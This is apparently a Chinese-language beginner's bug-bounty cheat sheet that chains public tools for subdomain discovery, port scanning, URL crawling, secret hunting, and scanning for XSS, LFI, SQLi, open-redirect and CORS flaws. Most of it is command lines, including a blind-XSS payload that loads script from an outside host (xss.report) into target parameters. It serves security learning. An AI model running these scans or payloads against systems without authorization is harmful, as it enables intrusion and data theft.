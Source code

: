 <center>Bug Hunting</center>





[toc]









## Bug Hunting

> 初学者渗透。









### 1. 子域名收集

```shell
mkdir test
cd test

# 子域名1
subfinder -d facebook.com -all -recursive > subdomain1.txt

# crt.sh
sudo apt  install jq -y
curl -s "https://crt.sh/?q=%.example.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u > subdomain2.txt

# 合并
cat subdomain1.txt subdomain2.txt  | sort | uniq > subdomains.txt

```

> 子域名： [subfinder](https://github.com/projectdiscovery/subfinder) 
>
> 子域名： [crt.sh](https://github.com/crtsh)





### 2. 端口扫描

```shell
# 安装 为缺少 libpcap 开发库
sudo apt-get install libpcap-dev -y
go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest

# 使用
naabu -host hackerone.com

# 常用
naabu -list subdomains.txt -c 50 -nmap-cli 'nmap -sV -sC' -o naabu-full.txt

# 存活主机 httpx-tookit
sudo apt install httpx-toolkit
cat subdomains.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

> naabu: 用 Go 编写的快速端口扫描程序，注重可靠性和简单性。[github](https://github.com/projectdiscovery/naabu)
>
> httpx: `httpx`是一款快速且用途广泛的 HTTP 工具包，允许使用[retryablehttp](https://github.com/projectdiscovery/retryablehttp-go)库运行多个探测。它旨在通过增加线程数量来保持结果的可靠性。   [github](https://github.com/projectdiscovery/httpx)

```shell
# 自动化工具： 用于查找 SQLi、XSS、LFi、OpenRedirect 的自动侦察工具  https://github.com/aungsanoo-usa/aungrecon

git clone https://github.com/aungsanoo-usa/aungrecon.git
cd aungrecon

chmod +x install.sh
chmod +x aungrecon.sh

./install.sh
./aungrecon.sh
```

> katana: 下一代爬行和蜘蛛框架  [github](https://github.com/projectdiscovery/katana)

```shell
go install github.com/projectdiscovery/katana/cmd/katana@latest

# 爬去文件
katana -u subdomains_alive.txt -d 5 -kf -jc -fx -ef woff,pdf,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

# 查找配置文件
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"

cat allurls.txt | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep '=' | sed 's/=.*/=/' | sort | uniq > bsqli.txt
```





### 3. xss 漏洞

> kxss:  [github](https://github.com/Emoe/kxss)
>
> gxss: [github](https://github.com/KathanP19/Gxss)

```shell
cat allurls.txt | Gxss | kxss | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > xss.txt
```





### 4. lfi & open_redirect

> lfi 漏洞和open_redirect漏洞
>
> gf: grep 的包装器，帮助你 grep 东西 [github](https://github.com/tomnomnom/gf)

```shell
go install github.com/tomnomnom/gf@latest

cat allurls.txt | gf or | sed 's/=.*/=/' | sort -u > open_redirect.txt

cat allurls.txt | gf lfi | sed 's/=.*/=/' | sort -u > lfi_output.txt

```

> 总结，找到一些可能存在漏洞的地方了。开始攻击了









### 5. 攻击

> loxs: 查找 SQLi、CRLF、XSS、LFi、OpenRedirect 的最佳工具  [github](https://github.com/coffinxp/loxs)
>
> 安装： [文章](/网络安全/渗透工具/24Loxs快速查找漏洞.md)

```shell
python3 loxs.py 

# 选择urls和攻击的payload
│1] LFi Scanner                                               │
│2] OR Scanner                                                │
│3] SQLi Scanner                                              │
│4] XSS Scanner                                               │
│5] CRLF Scanner  
```

> xss_scanner: [github.com](https://github.com/aungsanoo-usa/xss_scanner)  。xss扫描
>
> 安装看redeme.

```shell
在xss_scanner中：
# 查看存在xss
python3 xss_scanner.py -l /home/goer/hackerone/facebook/bsqli.txt -p xss.txt -o output.txt
```

> 查找敏感信息
>
> SecretFinder:  一个用于查找敏感数据  [github](https://github.com/m4ll0k/SecretFinder)

````shell
# js文件
cat allurls.txt | grep -E "\.js$" >> js.txt


# 敏感信息
git clone https://github.com/m4ll0k/SecretFinder.git secretfinder
cd secretfinder
python -m pip install -r requirements.txt or pip install -r requirements.txt
python3 SecretFinder.py


# 使用
python3 SecretFinder.py -i js.txt -o secret.txt
````

> 目录扫描

```shell
sudo apt install dirsearch

dirsearch  -u https://www.example.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
```

> xss漏洞

```shell
# 工具 qurl & bxss
go install github.com/repejota/qurl/cmd/qurl@develop
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest

# subfinder
subfinder -d example.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/aunglat></script>' -parameters
```

> 子域名检测： subzy [github](https://github.com/PentestPad/subzy)

```shell
subzy run --targets subdomains.txt --verify_ssl
```

> CORS 错误配置扫描程序: [github](https://github.com/s0md3v/Corsy)

```shell
git clone https://github.com/s0md3v/Corsy.git

python3 corsy.py -i /home/goer/hackerone/facebook/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

> nuclei: Nuclei 是一款现代的高性能漏洞扫描程序，它利用基于 YAML 的简单模板。 [github](https://github.com/projectdiscovery/nuclei)
>
> nuclei-templates: 社区精心挑选的用于核心引擎的模板列表，用于查找应用程序中的安全漏洞。[github](https://github.com/projectdiscovery/nuclei-templates)
>
> priv8-Nuclei: 作者的一些模板。 [github](https://github.com/aungsanoo-usa/priv8-Nuclei)

```shell
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

# 下载作者的模块到  nuclei模块中 ~/.local
git clone https://github.com/aungsanoo-usa/priv8-Nuclei.git ~/.local/nuclei-templates/priv8-nclei

nuclei -list subdomains_alive.txt -t priv8-nclei/cors.yaml -v
```

> OpenRedireX 用于检测开放重定向漏洞的模糊测试器 [github](https://github.com/devanshbatham/OpenRedireX)

```shell
git clone https://github.com/devanshbatham/openredirex
cd openredirex
sudo chmod +x setup.sh
./setup.sh

# 全局安装依赖
pip3 install aiohttp tqdm

# python脚本安装到环境变量
cat setup.sh 
#!/bin/bash

# Rename the openredirex.py file to openredirex
mv openredirex.py openredirex


# Move the openredirex file to /usr/local/bin
sudo mv openredirex /usr/local/bin/

# Make the openredirex file executable
sudo chmod +x /usr/local/bin/openredirex

# Remove the openredirex.pyc file if it exists
if [ -f openredirex.pyc ]; then
    rm openredirex.pyc
fi

echo "openredirex has been installed successfully!"
```

```shell
# 使用
cat allurls.txt | gf redirect | openredirex -p ~/Tools/openredirex/payloads.txt
```

> shortscan: IIS 短文件名枚举工具 [github](https://github.com/bitquark/shortscan)

```shell
go install github.com/bitquark/shortscan/cmd/shortscan@latest

# 使用
shortscan https://example.com/ -F
```


